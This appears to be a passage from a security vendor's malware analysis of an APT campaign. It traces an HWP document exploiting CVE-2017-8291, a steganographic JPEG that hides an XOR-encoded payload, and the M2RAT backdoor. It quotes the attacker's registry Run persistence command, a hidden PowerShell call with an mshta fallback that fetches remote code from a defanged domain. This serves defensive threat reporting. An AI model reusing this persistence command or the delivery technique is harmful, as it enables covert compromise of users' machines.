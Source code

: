 Figure 2. Flow chart of the attack scenario
2. Analysis
2.1. Initial Access
On January 13, an HWP EPS vulnerability (CVE-2017-8291) attack involving the usage of the filename “Form.hwp” was discovered by AhnLab’s ASD (AhnLab Smart Defense). The HWP document was not collected at the time of the analysis, but we were able to procure the EPS file that triggered the aforementioned vulnerability.

Figure 3. ASD infrastructure log
EPS is a type of graphic format that uses the PostScript programming language by Adobe to show graphics. High-resolution vector images can be shown through EPS and the Hangul Word Processor supported a third-party module (ghostscript) to process EPS files. However, due to an increase in malicious EPS vulnerability exploitations, such as APT attacks, Hancom has removed the third-party EPS processing module.
Additionally, the ASEC analysis team posted a detailed analysis report on the CVE-2017-8291 vulnerability back in 2019.
The “Form.hwp” file includes a vulnerable EPS file (CVE-2017-8291) which is shown in Figure 4. When the user opens the file (“Form.hwp”), the vulnerability allows the threat actor’s shellcode to run through the third-party module.

Figure 4. EPS vulnerability code within “Form.hwp”

Figure 5. Stage 1: Shellcode execution through EPS vulnerability
The shellcode downloads an image file (JPEG) from the threat actor’s server (C&C) and decrypts the encoded PE file contained within the image file. Afterward, it creates the PE file in the %temp% path before executing it.
2.2. Defense Evasion
The shellcode downloaded an image file from the threat actor’s server and executed an additional piece of malware. In other words, the threat actor used the steganography technique to embed a malware strain within an image. We assume that this was done to evade network detection. It appears that the steganography image file used by the threat actor was obtained from a wallpaper-sharing website called “wallup.net”.

Figure 6. Steganography image file
The image file consists of a normal JPEG header, the meta data required for decoding the PE file (XOR key and file size), and the encoded PE file.

Figure 7. Configuration info of steganography image
A 16-byte XOR key is used for PE decoding to XOR 1 byte at a time.

16-byte xor key : FD DD 28 F5 7C 48 8E 7E 0C E0 17 77 35 87 3B 49(0xFD xor 0xB0) = 0x4D (M)(0xDD xor 0x87) = 0x5A (Z)(0x28 xor 0xB8) = 0x90(0xF5 xor 0xF5) = 0x00(* MZ is the signature of the PE file.)

The ultimately decoded PE file is created and executed under the name lskdjfel.exe in the %temp% path. The executed PE file is responsible for downloading an additional backdoor malware (M2RAT), injecting it into explorer.exe, and adding both Powershell and mshta commands to the autorun registry Run key to establish a persistent connection with the threat actor’s server.
2.3. Persistence
The executed lskdjfel.exe file registers the following command to the registry Run key to establish a persistent connection with the threat actor’s server.

Registry key path: HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
Value name: RyPO
Value: c:\windows\system32\cmd.exe /c PowerShell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass ping -n 1 -w 340328 2.2.2.2 || mshta hxxps://www.*****elearning.or[.]kr/popup/handle/1.html
